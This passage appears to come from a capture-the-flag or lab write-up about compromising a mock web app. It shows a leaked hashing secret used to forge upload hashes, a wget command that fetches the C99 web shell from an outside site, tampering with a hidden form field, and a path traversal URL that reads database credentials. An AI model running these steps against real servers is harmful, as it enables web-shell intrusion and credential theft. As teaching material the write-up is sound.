 ```php

} else {

    // Return false on failure
    $data['file_hash'] = false;

}
```

And viewing the referenced `hashFile()` function we see the following:

```php
private function hashFile($fileName) {

    // Super duper, top secret hashing algorithm
    return sha1($fileName . 'ErrrMahGerrds_Sup3rS3cr3t_P@ssw0rd');

}
```

That's a bingo! We now have the method of file hashing along with the secret
string that gets concatenated with the file name. With this information we can
actively exploit the file upload form and generate a valid hash for any file we
choose.

## Shelling the Server

It's now time to grab a fresh copy of [C99](http://www.r57shell.net/) (I also
recommend [Weevely](https://github.com/epinna/weevely3) but for this example
we'll stick to the more simple C99 shell) and generate a valid hash for
uploading:

```shell
$ wget http://www.r57shell.net/shell/c99.txt
$ mv c99.txt not_a_shell.php
$ echo -n "not_a_shell.phpErrrMahGerrds_Sup3rS3cr3t_P@ssw0rd" | sha1sum
```

This gives us:

    90d5aeb035bbcd0df8f5e84721d3eb8f3321ff8c

Now we can go back to the upload form, select our `c99.php` file, then using
Firebug or the browsers built-in web developer tools modify the value of the 
hidden `file_hash` element and set it to our pre-generated hash. This time, when
we submit the form, the file upload succeeds without error. Navigating to 
`/uploads/not_a_shell.php` now brings up our shell.

From here accessing any aspect of the web application or it's database are
trivial. Let's investigate the database now. First, nab the credentials by
navigating to `/images/media?file=....//....//Config/database.php`:

```php
public $default = array(
    'datasource' => 'Database/Mysql',
    'persistent' => false,
    'host'       => 'localhost',
    'login'      => 'spookileaks',
    'password'   => 'rmPtShWVyrCcxfJaBvsPL4t2',
    'database'   => 'spookileaks',
    'prefix'     => '',
    //'encoding' => 'utf8',
);
```
